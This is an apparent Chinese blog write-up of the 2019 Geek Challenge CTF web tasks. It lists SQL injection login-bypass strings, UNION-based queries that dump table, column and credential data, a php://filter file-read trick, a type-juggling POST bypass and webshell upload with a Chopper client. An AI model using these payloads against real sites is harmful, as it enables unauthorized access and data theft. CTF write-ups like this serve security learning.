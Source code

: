 ```yaml
---
title: 2019极客大挑战
author: Troye
avatar: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/avatar.jpg
authorLink: 
authorAbout: 
authorDesc: 
categories: 技术
comments: true
date: 2020-04-13 22:17:44
tags:
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/echo.jpg
---
```

1、Havefun
签到题。根据源码，get提交cat=dog即可
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/内发生的既然是九年.jpg)
2、secret file
F12看到hint：
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/w.jpg)
访问
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/e.jpg)
打开secret
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/r.jpg)
尝试bp
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/t.jpg)
发现下一个hint，访问
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/y.jpg)
显然是不可能直接访问flag.php的，根据这里的php可知file中不能包括file、tp、input、data，虽然不是很懂但是很容易想到之前遇到过的php://filter伪协议结合base64实现文件读取：
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/u.jpg)
得到一串base64编码，解码得到flag
3、PHP1
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/i.jpg)
首先访问index.php.bak,无效。于是www.zip
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/o.jpg)
后面就是php了，涉及到序列化及反序列化的知识点。
index.php里面是一个简单的get和反序列化
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/p.jpg)
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/a.jpg)
4、Easysql1
万能密码
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/s.jpg)
常用万能密码
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1--

5、Knife
菜刀连接即可。flag就在根目录。
6、http
找到secret.php然后改header头就行了，没什么难度。
7、BuyFlag
右上角菜单访问pay.php，bp抓包发现：
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/d.jpg)
Password不能是数字但是要等于404并且金钱要等与100000000
Post：password=404a&money=1e9
注：因为100000000会显示太长所以这里用科学计数法绕过，还有一点就是要把cookie里的user改为1，根据提示很容易猜出来。
8、upload
一句话木马
菜刀连接直接找
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/f.jpg)
9、LoveSQL
万能密码登陆成功，但是得到了一串似乎并没有什么用的密码
还是按常规套路来，首先测有几列：admin’ order by 3#&password=1
接着测回显列（注意id要写一个比较离谱的）
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/帅哥帅哥.jpg)
测数据库名和版本：
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/h.jpg)
测表名
union select 1,2,table_name from information_schema.tables where table_schema=database() limit 0,1 %23
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/j.jpg)
union select 1,2,group_concat(column_name) from information_schema.columns where table_name='l0ve1ysq1' %23
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/k.jpg)
查询数据
union select 1,2,group_concat(concat_ws(0x7e,username,password)) from geek.l0ve1ysq1 %23
10、BabySQL
11、HardSQL
参考链接：
https://blog.csdn.net/SopRomeo/article/details/104041233

